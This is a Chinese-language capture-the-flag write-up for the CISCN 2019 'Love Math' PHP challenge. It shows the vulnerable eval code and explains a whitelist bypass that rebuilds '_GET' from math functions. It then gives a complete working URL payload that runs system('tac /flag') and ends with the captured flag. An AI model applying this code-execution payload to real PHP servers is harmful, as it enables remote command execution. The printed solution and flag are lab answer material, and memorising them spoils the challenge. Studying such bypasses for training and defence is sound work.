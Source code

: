 # [CISCN 2019 初赛]Love Math

[题目地址](http://50e88fc4-4d5a-4c55-a152-53ee8656cbfc.node4.buuoj.cn:81/)

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

看见eval就知道getshell题。[preg_match_all](https://www.php.net/manual/zh/function.preg-match-all.php)全局搜索匹配正则的所有内容，$used_funcs[0]是包含匹配完整模式的字符串的数组。这次过滤用的是白名单而不是黑名单，代表我们一定要在一堆数学函数中构造出getshell命令。还有长度限制，要求内容长度小于等于80个字符。那就需要利用一个php的特性了。

- 动态函数
> php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数<br>例如：`$function = "phpinfo";$function();`会执行phpinfo。

配合另一个技巧_GET。我们完全可以构造一个这样的payload：`$_GET[0]($_GET[1])`，用较少的字符实现任意shell。然而很多字符都用不了，[wp](https://www.cnblogs.com/20175211lyz/p/11588219.html)提供了3种方法。其中一种如下：

- http://50e88fc4-4d5a-4c55-a152-53ee8656cbfc.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac%20/flag

关键思路就是利用白名单内已有的函数构造出`_GET`：

```php
//hex2bin
echo base_convert(37907361743,10,36);
//5f474554
echo dechex(1598506324);
//_GET
echo hex2bin("5f474554");
```

那么拆解payload就得到：

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})
$pi=hex2bin("5f474554")=>_GET
$$pi取出真正的_GET数组，$p得到的_GET只是字符串；因为[]被禁了就用{}代替，最后的得：
(_GET){pi}((_GET){abs})
也就是刚才提到的任意shell
```

后面get再传入参数就能得到flag了。

## Flag
> flag{9cbb62d3-0229-458e-b9bf-696521eeff4c}